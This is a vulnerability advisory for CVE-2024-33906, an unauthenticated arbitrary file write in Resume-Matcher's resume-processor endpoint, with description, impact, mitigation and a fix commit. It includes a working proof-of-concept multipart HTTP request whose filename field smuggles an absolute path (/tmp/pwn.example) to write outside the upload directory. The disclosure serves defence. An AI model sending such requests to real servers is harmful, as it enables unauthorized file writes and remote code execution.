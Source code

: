 ```yaml
---
title: "Arbitrary File Write in Resume-Matcher"
date: 2024-04-29
tags:
	- "arbitrary file write"
advisory: true
origin:
cves: 
	- CVE-2024-33906
ghsas:
---
```

# Description
Resume-Matcher through 0.1.1-alpha is susceptible to arbitrary file write due to improper file path validation in the `/api/resume-processor` endpoint. An attacker could upload a malicious file to an arbitrary location on the server, which results in remote code execution in most system configurations.

# Explotation
1. The following request will create a `/tmp/pwn.example` file.

```
POST /api/resume-processor HTTP/1.1
Host: 127.0.0.1:8000

Content-Length: 335
Content-Type: multipart/form-data;
boundary=----WebKitFormBoundaryB7BMKT4iboAIYDLB

------WebKitFormBoundaryB7BMKT4iboAIYDLB
Content-Disposition: form-data; name="resume"; filename="/tmp/pwn.example"
Content-Type: application/pdf
file-data

------WebKitFormBoundaryB7BMKT4iboAIYDLB
Content-Disposition: form-data; name="jobs"
Content-Type: application/json
{}

------WebKitFormBoundaryB7BMKT4iboAIYDLB--
```

# Impact
Unauthenticated attacker can upload arbitrary files into the server which results in remote code execution in most system configurations.

# Mitigation
Upgrade Resume-Matcher to the latest version.

# References
* [Commit](https://github.com/srbhr/Resume-Matcher/commit/f2c28b4b4bff4070582fdd1c87563e4a68601a69)